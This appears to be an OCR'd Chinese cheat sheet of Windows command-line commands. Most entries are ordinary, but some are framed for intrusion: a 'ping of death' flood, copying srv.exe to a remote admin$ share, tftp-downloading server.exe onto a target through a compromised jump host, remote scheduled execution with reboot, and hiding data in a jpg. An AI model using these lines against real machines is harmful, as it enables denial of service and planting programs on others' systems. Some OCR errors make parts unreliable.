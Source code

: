 ```text

tracert -参数 ip(或计算机名)  ;跟踪路由（数据包），参数：“-w 数字”用于设置超时间隔。
ping ip(或域名)               ;向对方主机发送默认大小为 32 字节的数据，参数：“-l[空格]数据包大小”；“-n 发送数据次数”；“-t”指一直 ping。
ping -t -l 65550 ip           ;死亡之 ping(发送大于 K 的文件并一直 ping 就成了死亡之 ping)
ipconfig (winipcfg)           ;用于 windows NT 及 XP(windows 95 98)查看本地 ip 地址，ipconfig 可用参数“/all”显示全部配置信息

tlist -t            ;以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的 Support/tools 文件夹内)
kill -F 进程名      ;加-F 参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的 Support/tools 文件夹内)
del -F 文件名       ;加-F 参数后就可删除只读文件,/AR、/AH、/AS、/AA 分别表示删除只读、隐藏、系统、存档文件，
                     /A-R、/A-H、/A-S、/A-A 表示删除除只读、隐藏、系统、存档以外的文件。
                     例如 "DEL/AR *.*" 表示删除当前目录下所有只读文件，"DEL/A-S *.*" 表示删除当前目录下除系统文件以外的所有文件

del /S /Q 目录
rmdir /s /Q 目录    ;/S 删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）

move 盘符\路径\要移动的文件名 存放移动文件的路径\移动后文件名  ;移动文件,用参数/y 将取消确认移动目录存在相同文件的提示就直接覆盖

fc one.txt two.txt > 3st.txt   ;对比二个文件并把不同之处输出到 3st.txt 文件中，"> "和"> >" 是重定向命令

at id 号                              ;开启已注册的某个计划任务
at /delete                            ;停止所有计划任务，用参数/yes 则不需要确认就直接停止
at id 号 /delete                      ;停止某个已注册的计划任务
at                                    ;查看所有的计划任务
at \\ip time 程序名(或一个命令) /r    ;在某时间运行对方某程序并重新启动计算机

finger username @host  ;查看最近有哪些用户登陆
telnet ip 端口         ;远和登陆服务器,默认端口为 23
open ip                ;连接到 IP（属 telnet 登陆后的命令）
telnet                 ;在本机上直接键入 telnet 将进入本机的 telnet

copy 路径\文件名 1　路径\文件名 2 /y                 ;复制文件 1 到指定的目录为文件 2，用参数/y 就同时取消确认你要改写一份现存目录文件
copy c:\srv.exe \\ip\admin$                          ;复制本地 c:\srv.exe 到对方的 admin 下
cppy 1st.jpg/b+2st.txt/a 3st.jpg                     ;将 2st.txt 的内容藏身到 1st.jpg 中生成 3st.jpg 新的文件，
                                                      注：2st.txt 文件头要空三排，参数：/b 指二进制文件，/a 指 ASCLL 格式文件
xcopy 要复制的文件或目录树　目标地址\目录名          ;复制文件和目录树，用参数/Y 将不提示覆盖相同文件
copy \\ip\admin$\svv.exe c:\ 或:copy\\ip\admin$\*.*  ;复制对方 admini$共享下的 srv.exe 文件（所有文件）至本地 C：

tftp -i 自己 IP(用肉机作跳板时这用肉机 IP) get server.exe c:\server.exe 登陆后，将“IP”的 server.exe 下载到目标主机 c:\server.exe 参数：-i 指以二进制模式传送，如传送 exe 文件时用，如不加-i 则以 ASCII 模式（传送文本文件模式）进行传送

tftp -i "对方 IP" put c:\server.exe  登陆后，上传本地 c:\server.exe 至主机
ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为 21。bin 指用二进制方式传送（可执行文件进）；默认为 ASCII 格式传送(文本文件时)

route print  显示出 IP 路由，将主要显示网络地址 Network addres，子网掩码 Netmask，网关地址 Gateway addres，接口地址 Interface
arp  查看和处理 ARP 缓存，ARP 是名字解析的意思，负责把一个 IP 解析成一个物理性的 MAC 地址。arp -a 将显示出全部信息
start 程序名或命令 /max 或/min  新开一个新窗口并最大化（最小化）运行某程序或命令
mem  查看 cpu 使用情况

attrib 文件名(目录名)  查看某文件（目录）的属性
attrib 文件名 -A -R -S -H 或 +A +R +S +H  去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用＋则是添加为某属性

dir  查看文件，参数：/Q 显示文件及目录属系统哪个用户，/T:C 显示文件创建时间，/T:A 显示文件上次被访问时间，/T:W 上次被修改时间
date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间

set 指定环境变量名称=要指派给变量的字符  设置环境变量
set  显示当前所有的环境变量
set p(或其它字符)  显示出当前以字符 p(或其它字符)开头的所有环境变量

pause  暂停批处理程序，并显示出：请按任意键继续....
if  在批处理程序中执行条件处理（更多说明见 if 命令及变量）
goto 标签  将 cmd.exe 导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
```